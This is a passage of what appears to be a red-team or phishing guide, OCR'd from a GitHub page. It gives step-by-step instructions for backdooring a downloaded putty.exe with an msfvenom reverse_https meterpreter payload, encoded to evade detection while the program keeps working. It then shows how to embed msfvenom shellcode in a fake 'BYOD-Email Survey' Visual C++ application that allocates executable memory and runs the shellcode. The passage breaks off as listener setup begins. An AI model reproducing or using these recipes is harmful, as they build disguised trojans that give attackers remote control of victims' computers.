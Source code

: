     `wget http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe`
3. Next, we will generate the reverse\_https metasploit payload, encode it 25 times using shikata\_ga\_nai, set the listener IP address and port, and generate our evil payload 'evilputty.exe' from our original payload 'putty.exe' all without breaking the functionality of the original by using the `-x` flag. 

    `msfvenom -p windows/meterpreter/reverse_https -f exe -e x86/shikata_ga_nai -i 25 -k -x /var/www/lulz/putty.exe LHOST=192.168.1.41 LPORT=443 >evilputty.exe`

    Where "/var/www/lulz/" is the `path` to your putty executable.

## 4. BYOD-Email Survey payload
For this method, we generated shellcode using Metasploit. That was then imported into a visual c++ program. Perform the following steps to generate a custom Metasploit infected executable. 

1. Download and install Microsoft Visual Studio Professional 2013.
2. Select `New Project`.
3. In the `New Project` setup wizard, select `C++` in the left hand pane.
4. Select `MFC` in the sub category.
5. In the pane on the right, select `MFC Application`.
6. Input the `Project Name` and `Solution Name`.
7. Select `OK`.
8. Select `Next`.
9. On the `Application Type` phase, select `Dialog Based`.
10. Select `Use MFC in a static library`.
11. In the `Solution Explorer` pane, select `<your-project-name>.cpp`.
12. Next, we will use Metasploit to output shellcode in `C`. On a GNU/Linux OS with Metasploit installed, run the following command.

    `msfvenom -p windows/meterpreter/reverse_https LHOST=111.222.333.444 LPORT=443 -f c`

13. Copy the output shellcode.
14. Return to the Visual Studio editor.
15. Create a function and paste your shellcode into your function. An example is below.

    `void own() {`

    `unsigned char buf[] =`

    `"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"`

    `...(paste your shellcode here...`

    `"\x37\x2e\x31\x33\x39\x2e\x31\x37\x36\x00";`

    `void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);`

    `memcpy(exec, buf, sizeof buf);`

    `((void(*)())exec)();`

    `}`

16. Create a call to the function somewhere in your application.

    `own();`
17. Compile your application and run it. 
***
## 5. Payload listener configuration
Perform the following steps to configure the payload listener , or your "Phone-home" system. 
